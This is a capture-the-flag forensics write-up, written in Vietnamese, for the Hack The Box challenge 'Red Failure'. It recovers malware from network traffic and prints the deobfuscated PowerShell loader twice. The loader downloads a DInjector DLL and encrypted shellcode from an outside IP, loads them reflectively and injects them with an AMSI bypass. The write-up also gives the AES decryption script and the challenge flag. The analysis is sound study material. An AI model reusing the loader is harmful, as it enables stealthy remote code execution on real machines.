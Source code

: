 ## Red Failure - 30 points

**Author**: thewildspirit  
**Category**: Forensics  

### Challenge Description
> During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?

---

Mở file `.pcap`, xem Protocol Hierarchy thấy có vài giao thức như HTTP, TCP, UDP thôi.  
![Protocol Hierarchy](asset/Red%20Failure/image/1.png)  
HTTP hơi ít nên filter HTTP traffic, thấy có cái gì đó thú vị.  
![HTTP Filter](asset/Red%20Failure/image/2.png)  
Bấm Follow TCP Stream để thấy rõ hơn nội dung. (Dùng Follow TCP hay HTTP đều được)  
![Follow TCP Stream](asset/Red%20Failure/image/3.png)  
Có vẻ đây là một shellcode đã bị làm rối.  
![Obfuscated Shellcode](asset/Red%20Failure/image/4.png)  
Viết một script đơn giản để giải mã shellcode.  
![Decode Script](asset/Red%20Failure/image/5.png)  
Vì shellcode đơn giản nên script không giải mã được toàn bộ.  
![Partial Decode](asset/Red%20Failure/image/6.png)  
Bỏ những đoạn chưa giải mã được vào PowerShell rồi tổng hợp lại thì ra đoạn shellcode như sau:

```powershell
sV  "YuE51" ([typE]"SySTeM.REFLEcTIOn.aSSemblY");  ${a} = "currentthread"
${B} = "147.182.172.189"
${C} = 80
${D} = "user32.dll"
${E} = "9tVI0"
${f} = "z64&Rx27Z$B%73up"
${g} = "C:\Windows\System32\svchost.exe"
${h} = "notepad"
${I} = "explorer"
${j} = "msvcp_win.dll"
${k} = "True"
${l} = "True"

${MeThODS} = @("remotethread", "remotethreaddll", "remotethreadview", "remotethreadsuspended")
if (${mEThOdS}."Contains".Invoke(${A})) {
    ${h} = (&"Start-Process" -WindowStyle "Hidden" -PassThru ${H})."Id"
}

${METhODS} = @("remotethreadapc", "remotethreadcontext", "processhollow")
if (${mEthODS}."Contains".Invoke(${a})) {
    try {
        ${I} = (&"Get-Process" ${I} -ErrorAction "Stop")."ID"
    }
    catch {
        ${I} = 0
    }
}

${cmd} = "currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:notepad /ppid:explorer /dll:msvcp_win.dll /blockDlls:True /am51:True"
${data} = (."IWR" -UseBasicParsing "http://147.182.172.189:80/user32.dll")."Content"
${assem} =  ( ls "variable:yUE51"  )."VaLUe"::"Load".Invoke(${data})
${flags} = [Reflection.BindingFlags] "Static, NonPublic"
${class} = ${assem}."GetType".Invoke("DInjector.Detonator", ${flags})
${entry} = ${class}."GetMethod".Invoke("Boom", ${flags})
${entry}."Invoke"(${null}, (, ${cmd}."Split".Invoke(" ")))
```

Phân tích:  
- Luồng thực thi chính: `${cmd}` Tạo chuỗi lệnh với các tham số:  
    - Kỹ thuật injection: `currentthread`  
    - Shellcode URL: `http://147.182.172.189:80/9tVI0`  
    - Password giải mã: `z64&Rx27Z$B%73up`  
    - Target process: `svchost.exe`  
    - PID giả mạo: `notepad/explorer`  
    - Tính năng bổ sung: Block DLLs (True), AM51 patch (True)  
- `${data}` tải payload dll user32.dll  
- `${assem}` load DLL vào memory sử dụng Reflection.Assembly.Load(). Biến `yUE51` chứa tham chiếu đến namespace System.Reflection.  
- `${flags}`, `${class}`, `${entry}` truy cập method `Boom` trong class `Detonator` với quyền:  
    - Static: Method tĩnh  
    - NonPublic: Truy cập private method (bypass kiểm tra)  
- `${entry}` gọi method Boom với tham số là mảng các argument được tách từ chuỗi `${cmd}`  

Vậy là ta có thể thấy shellcode này tải các file `user32.dll` và `9tVI0`  
File `user32.dll` là một file .NET giả mạo, đây là file mã độc (Vì tải trên máy thật bị anh WD đấm miết)  
File `9tVI0` chắc là shellcode thứ 2, dùng để tiêm vào process `svchost.exe` như trong lệnh cmd  
Dùng Network miner thì tải được 3 file đã nói từ attackers  
![Network Miner Analysis](asset/Red%20Failure/image/7.png)  
Nghịch một lúc thì cũng không ra gì  
![Analysis Stuck](asset/Red%20Failure/image/8.png)  
Search keywork `.dll ctf challenge` và đọc một vài bài writeup thì tìm được tool ILSpy reverse được file .dll  
Mở ra thì ta có thể thấy cây cấu trúc (bên trái) của file `user32.dll` này, có một số file cần lưu ý như AES, AM51, Detonator  
![ILSpy Structure](asset/Red%20Failure/image/9.png)  
Đọc lại shellcode lần nữa, ta thấy mục đích của `user32.dll` là decrypt shellcode `9tVI0` để thực thi  

```powershell
${cmd} = "currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:notepad /ppid:explorer /dll:msvcp_win.dll /blockDlls:True /am51:True"
${data} = (."IWR" -UseBasicParsing "http://147.182.172.189:80/user32.dll")."Content"
${assem} =  ( ls "variable:yUE51"  )."VaLUe"::"Load".Invoke(${data})
${flags} = [Reflection.BindingFlags] "Static, NonPublic"
${class} = ${assem}."GetType".Invoke("DInjector.Detonator", ${flags})
${entry} = ${class}."GetMethod".Invoke("Boom", ${flags})
${entry}."Invoke"(${null}, (, ${cmd}."Split".Invoke(" ")))
```

Trong shellcode này có đề cập đến file `DInjector.Detonator` gọi method Boom, code Boom như sau (Đính kèm trong file vậy, paste dài quá)  
![Boom Method](asset/Red%20Failure/image/10.png)  
Nhìn chung là method Boom này sẽ thực thi lệnh với các biến trong `${cmd}` và decrypt data của `9tVI0`  
Trong file AES ta cũng có method decrypt như sau  
![AES Decrypt](asset/Red%20Failure/image/11.png)  
Vậy giờ thì thử decrypt file `9tVI0` xem thế nào  

```… stuck vài tiếng …```  

Không phải vì không biết viết code decrypt mà là thử decrypt cỡ nào cũng không ra được file đọc được .-. (non).  
Code decrypt  

```python
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto.Util.Padding import unpad
import sys

def decrypt_9tVI0(input_file, output_file, password):
    try:
        with open(input_file, 'rb') as f:
            full_data = f.read()
        
        key = SHA256.new(password.encode('utf-8')).digest()
        
        iv = full_data[:16]
        ciphertext = full_data[16:]
        
        cipher = AES.new(key, AES.MODE_CBC, iv=iv)
        plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)
        
        with open(output_file, 'wb') as f:
            f.write(plaintext)
        
        print("[+] Success!")
        print(f"[-] File size: {len(plaintext)} bytes")
        
        for marker in [b"flag{", b"HTB{"]:
            if marker in plaintext:
                start = plaintext.find(marker)
                end = plaintext.find(b"}", start)
                print(f"[+] Found flag: {plaintext[start:end+1].decode()}")
                break
        
        return True
    
    except ValueError as e:
        print(f"[-] padding err: {str(e)}")
        print("[!] Decode not using unpad...")
        with open(output_file + ".no_pad", 'wb') as f:
            f.write(cipher.decrypt(ciphertext))
        return False
    except Exception as e:
        print(f"[-] Err: {str(e)}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 decrypt.py <input_file> <output_file>")
        print("Example: python3 decrypt.py 9tVI0 decrypted.bin")
        sys.exit(1)
    
    password = "z64&Rx27Z$B%73up"
    
    if not decrypt_9tVI0(sys.argv[1], sys.argv[2], password):
        print("[!] Please check:")
        print("1. Does File input exist")
        print("2. Is password correct")
```

File `decrypted.bin` không khai thác tiếp được gì  
![Decrypted File](asset/Red%20Failure/image/12.png)  
Ngâm cứu lại shellcode thì có phát hiện  
![Shellcode Analysis](asset/Red%20Failure/image/13.png)  
Theo những gì đã phân tích được thì `user32.dll` sẽ tải và decrypt `9tVI0` để thực thi lệnh `${cmd}`, chúng ta quên mất lệnh này, phân tích lại lệnh này thì nó dùng `currentthread` (?). Code của nó như sau  
![CurrentThread Code](asset/Red%20Failure/image/14.png)  
Đây là code tiêm file `9tVI0` vào process để thực thi, cái này thì ta biết rồi, process đó là notepad.  
→ Phải chạy thử mới xem tiếp được  

Tiếp tục công đoạn đau mắt với keyword “run .dll file in ctf challenge”, tìm thấy tool scdbg với demo sau  
![scdbg Demo](asset/Red%20Failure/image/15.png)  
Test xem  
![scdbg Test 1](asset/Red%20Failure/image/16.png)  
![scdbg Test 2](asset/Red%20Failure/image/17.png)  
Có vẻ khả quan, thử với file đã decrypt xem  
![Decrypted File Test](asset/Red%20Failure/image/18.png)  
Ra thật này  
![Flag Found](asset/Red%20Failure/image/19.png)  

Flag: `HTB{00000ps_1_t0t4lly_f0rg0t_1t}`

---
